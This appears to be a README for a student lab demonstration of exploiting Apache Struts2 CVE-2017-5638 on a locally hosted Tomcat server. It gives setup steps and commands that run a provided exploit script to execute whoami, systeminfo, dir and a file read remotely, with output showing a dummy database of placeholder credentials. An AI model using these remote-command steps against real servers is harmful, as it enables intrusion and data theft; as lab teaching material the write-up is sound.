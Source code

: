 # Exploiting Apache Struts2 CVE-2017-5638

This guide demonstrates how to exploit the Apache Struts2 vulnerability (CVE-2017-5638) using a locally configured Apache Tomcat server and Python scripts.

---

## **Setup Guide**

### **1. Prerequisites**
- All required MSI/ZIP files are included in the folder.
- Follow the setup instructions provided in this [Medium article](https://medium.com/@lucideus/exploiting-apache-struts2-cve-2017-5638-lucideus-research-83adb9490ede).
- Note that all of this is run on a windows local machine, the articles assumes the server is hosted on a linux machine.

---

## **Steps to Execute**

### **Step 1: Navigate to the `bin` Directory**
```
cd <path-to-apache-tomcat-7.0.81-windows-x64\apache-tomcat-7.0.81\bin>
```


### **Step 2: Start Apache Tomcat**
Run the following command to start the server:
```
.\startup.bat
```

### **Step 3: Access the Application**
Open a browser and navigate to:
```
http://localhost:8080/str/
```

### **Step 4: Execute Commands Using Python Script**
Use the provided `str.py` script to execute commands on the server.

#### **Retrieve System Information**
```
python str.py http://localhost:8080/str/ "whoami"
python str.py http://localhost:8080/str/ "systeminfo"
```

#### **List Directory Contents**
```
python str.py http://localhost:8080/str/ "dir"
```

#### **Output Example**
```
Volume in drive C has no label.
Volume Serial Number is 0C74-F665

Directory of C:\Users\LENOVO\Downloads\SC3010 Presentation\apache-tomcat-7.0.81-windows-x64\apache-tomcat-7.0.81\bin

03/27/2025 08:24 PM <DIR> .
03/27/2025 08:24 PM <DIR> ..
03/27/2025 07:19 PM 28,503 bootstrap.jar
03/27/2025 07:19 PM 1,686 catalina-tasks.xml
03/27/2025 07:19 PM 14,028 catalina.bat
03/27/2025 07:19 PM 21,646 catalina.sh
03/27/2025 07:19 PM 204,944 commons-daemon-native.tar.gz
03/27/2025 07:19 PM 24,283 commons-daemon.jar
03/27/2025 07:19 PM 2,040 configtest.bat
03/27/2025 07:19 PM 1,922 configtest.sh
03/27/2025 07:19 PM 7,888 daemon.sh
03/27/2025 07:19 PM 2,091 digest.bat
03/27/2025 07:19 PM 1,965 digest.sh
03/27/2025 08:00 PM 453 fake_db.sql
03/27/2025 07:19 PM 6,308 service.bat
03/27/2025 ...
...
...
```
#### **Look for fake database infomation!**
```
python str.py http://localhost:8080/str/ "type fake_db.sql"
```
```
-- fake_db.sql

CREATE DATABASE IF NOT EXISTS fake_database;
USE fake_database;

CREATE TABLE IF NOT EXISTS users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(255) NOT NULL,
    email VARCHAR(100)
);

INSERT INTO users (username, password, email) VALUES
('admin', 'password123', 'admin@example.com'),
('user1', '123456', 'user1@example.com'),
('user2', 'abcdef', 'user2@example.com');
```
